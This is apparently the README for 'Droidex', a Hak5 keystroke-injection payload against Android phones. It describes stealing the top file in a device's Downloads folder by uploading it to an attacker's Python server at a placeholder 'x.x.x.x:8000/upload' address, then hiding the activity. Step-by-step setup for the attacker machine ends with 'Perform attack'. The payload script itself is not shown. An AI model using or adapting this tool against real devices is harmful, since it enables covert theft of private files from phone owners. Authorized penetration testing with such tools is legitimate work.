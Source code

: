 REM TITLE: Droidex

REM AUTHOR: OSINTI4L (https://github.com/OSINTI4L)

REM TARGET OS: Android (tested on Samsung S24 FE | Android 15 | One UI 7.0)

REM: This payload can also be found on the [Hak5 Payload Hub](https://payloadhub.com/blogs/payloads/droidex).

Droidex exfiltrates the top file stored in the Downloads directory of target mobile device to a self-hosted python webserver over LAN. Both the attacker machine and target device must be connected to the same LAN. The payload will use Google Search to navigate to the self-hosted webserver and upload the file. After exfiltration, the browser will navigate to `google.com` and the device will return to the home screen to obfuscate activity.

**REQUIRED DEPENDENCIES**

Python module [uploadserver](https://pypi.org/project/uploadserver/)

 1. Install `uploadserver` on attack machine (`python3 -m pip install --user uploadserver`).
 2. Enter `ifconfig` in terminal of attack machine (Linux) to find machine IP address.
 3. Place the IP address found via `ifconfig` into line 6 (`DEFINE #IPA x.x.x.x:8000/upload`) of payload.txt.
 4. Start the webserver (`python3 -m uploadserver`).
 5. Perform attack.
 6. The file will be saved to the current working directory on the attacker machine where the server is being hosted from.

![Diagram](https://github.com/user-attachments/assets/08dddce3-65ee-4711-ac3b-682a1358e325)
